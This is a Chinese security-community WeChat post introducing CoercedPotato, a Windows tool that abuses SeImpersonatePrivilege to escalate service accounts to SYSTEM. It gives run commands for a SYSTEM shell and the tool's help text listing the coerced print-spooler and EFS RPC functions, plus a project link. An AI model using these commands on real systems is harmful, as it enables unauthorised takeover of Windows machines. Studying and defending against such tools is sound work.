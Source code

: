 #  新Potato | 土豆家族又添一员

Mr.x  [ SecHub网络安全社区 ](javascript:void\(0\);)

**SecHub网络安全社区** ![]()

微信号 secevery0x01

功能介绍
隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

____

___发表于_

收录于合集 #渗透工具 52个

**点击蓝字 关注我们**

![]()

 **免责声明**

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

 **添加星标不迷路  
**

由于公众号推送规则改变，微信头条公众号信息会被折叠，为了避免错过公众号推送，请大家动动手指设置“星标”，设置之后就可以和从前一样收到推送啦![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/newemoji/2_04.png)

  

## 关于

从Patate（网络/网络服务）到System，在Windows 10，Windows 11和Server
2022上滥用`SeImpersonatePrivilege`。

一个快速的pooooc：

    
    
    .\CoercedPotato.exe -c whoami
    
    
    具有交互式外壳的其他PoC：
    
    
    .\CoercedPotato.exe -c cmd.exe
    
    
    ![]()

## 使用

您可以使用`--help`选项检查帮助消息。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
                                                                         ____                            _ ____       _        _          / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___   | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \  | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/                                                                                                              @Hack0ura @Prepouce                                                                      CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.Usage: .\CoercedPotato.exe [OPTIONS]  
    Options:  -h,--help                   Print this help message and exit  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined)                                -> ms-rprn :                                  [0] RpcRemoteFindFirstPrinterChangeNotificationEx()                                 [1] RpcRemoteFindFirstPrinterChangeNotification()                               -> ms-efsr                                  [0] EfsRpcOpenFileRaw()                                 [1] EfsRpcEncryptFileSrv()                                 [2] EfsRpcDecryptFileSrv()                                 [3] EfsRpcQueryUsersOnFile()                                 [4] EfsRpcQueryRecoveryAgents()                                 [5] EfsRpcRemoveUsersFromFile()                                 [6] EfsRpcAddUsersToFile()                                 [7] EfsRpcFileKeyInfo() # NOT WORKING                                 [8] EfsRpcDuplicateEncryptionInfoFile()                                 [9] EfsRpcAddUsersToFileEx()                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING                                 [11] EfsRpcGetEncryptedFileMetadata()                                 [12] EfsRpcEncryptFileExSrv()                                 [13] EfsRpcQueryProtectors()                                -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)                                                                                                                                                                                                                                

  

 **项目地址**  

  * 

    
    
     https://github.com/hackvens/CoercedPotato

  

  

欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

![]()

 **联系方式**

电话｜010-86460828

官网｜http://www.secevery.com

![]()

 **关注我们**

![]()![]()![]()

 **公众号：** sechub安全

 **哔哩号：** SecHub官方账号

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

